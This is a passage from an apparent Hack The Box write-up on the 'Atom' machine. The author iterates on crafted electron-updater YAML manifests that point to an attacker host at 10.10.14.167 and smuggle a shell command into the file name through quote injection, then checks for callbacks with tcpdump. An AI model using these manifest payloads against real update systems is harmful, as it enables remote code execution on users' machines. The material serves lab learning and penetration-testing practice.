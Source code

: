 I didn't get any hits on my handler. So let's re-add the `file` section to see if it helps:

```yaml
version: 1.0.1
files:
  url: heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.167/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I got rid of the hyphen as no one else used it, and instead set the "url" to be a relative path on the box.

However, I didn't get a hit. I looked up the [yaml syntax](https://docs.ansible.com/ansible/latest/reference_appendices/YAMLSyntax.html), and realised the issue might not be the presence of a hyphen, but the lack of hyphens on the other entries.

```yaml
version: 1.0.1
files:
  - url: heedv1'Setup1.0.1.exe
  - sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  - size: 73802
path: http://10.10.14.167/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

This didn't work either. My next idea was to try the payload that did land a hit, but using the command injection syntax instead:

```yaml
version: 1.0.1
path: http://10.10.14.167/heedv1';ping -n 1 10.10.14.167;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I got a hit again, but no ping. I did try pinging myself with the following command:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ ping -I tun0 localhost
```

The requests showed up on my listener, so that wasn't the issue.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:37:26.871587 IP 10.10.14.167 > 127.0.0.1: ICMP echo request, id 60658, seq 1, length 64
16:37:27.874587 IP 10.10.14.167 > 127.0.0.1: ICMP echo request, id 60658, seq 2, length 64
```
